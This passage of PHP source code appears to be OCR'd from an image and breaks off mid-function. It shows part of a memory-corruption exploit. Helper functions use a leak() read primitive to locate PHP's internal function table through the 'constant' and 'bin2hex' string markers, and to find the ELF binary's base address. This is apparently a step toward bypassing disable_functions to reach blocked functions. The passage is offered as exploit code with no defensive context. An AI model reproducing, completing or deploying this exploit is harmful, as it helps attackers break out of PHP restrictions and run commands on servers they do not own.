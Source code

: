 	}


	if(!$data\_addr || !$text\_size || !$data\_size)

	return false;


	return \[$data\_addr, $text\_size, $data\_size\];

	}


	function get\_basic\_funcs($base, $elf) {

	list($data\_addr, $text\_size, $data\_size) = $elf;

	for($i = 0; $i < $data\_size / 8; $i++) {

	$leak = leak($data\_addr, $i \* 8);

	if($leak - $base > 0 && $leak - $base < $text\_size) {

	$deref = leak($leak);

	\# 'constant' constant check

	if($deref != 0x746e6174736e6f63)

	continue;

	} else continue;


	$leak = leak($data\_addr, ($i + 4) \* 8);

	if($leak - $base > 0 && $leak - $base < $text\_size) {

	$deref = leak($leak);

	\# 'bin2hex' constant check

	if($deref != 0x786568326e6962)

	continue;

	} else continue;


	return $data\_addr + $i \* 8;

	}

	}


	function get\_binary\_base($binary\_leak) {

	$base = 0;

	$start = $binary\_leak & 0xfffffffffffff000;

	for($i = 0; $i < 0x1000; $i++) {

	$addr = $start - 0x1000 \* $i;

	$leak = leak($addr, 0, 7);
